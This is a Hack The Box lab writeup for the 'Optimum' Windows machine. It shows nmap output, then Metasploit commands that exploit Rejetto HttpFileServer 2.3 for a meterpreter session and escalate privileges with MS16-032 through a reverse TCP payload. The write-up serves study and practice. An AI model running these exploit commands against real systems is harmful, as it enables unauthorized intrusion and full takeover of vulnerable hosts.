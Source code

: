 ```yaml
---
title: "Optimum - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Optimum
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Optimum
![](https://kar0nx.github.io/assets/images/writeup/bb09ffeaffe2f5220a1d591bb7b4f95e.webp)

## Reconnaissance

IP: 10.10.10.8
### NMAP

```
nmap -T4 -p- -A 10.10.10.8
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 12:19 EST
Nmap scan report for 10.10.10.8
Host is up (0.031s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   30.79 ms 10.10.14.1
2   31.64 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.13 seconds
```

Nmap found only one open port 80 - HttpFileServer httpd 2.3

## Website

### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221182058.png)

As we could have guessed, it is empty rejetto file server. Let's search for exploits
https://www.exploit-db.com/exploits/39161
https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/

## Gaining Access

Open metasploit, then type 

```
use exploit/windows/http/rejetto_hfs_exec
set lhost tun0
set rhosts 10.10.10.8
set rport 80
run
```

check sysinfo

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221183541.png)

we can grab first flag and continue with escalating privilege 

## Privilege Escalating 

continue using metasploit, background meterpreter

```
search suggester
use 0
set session 1
run
```

Suggester find few exploits, but nothing works for me. we need to search google for Windows Server 2012 R2 (6.3 Build 9600) priv escalation.
https://www.exploit-db.com/exploits/39719
ms16-032 is most popular so let's try it using metasploit

```
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set session 1
set target 1
set lhost tun0
set payload windows/x64/meterpreter/reverse_tcp
```

Everything works, we have root access

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221192006.png)

Now simply navigate to Administrator desktop and grab flag.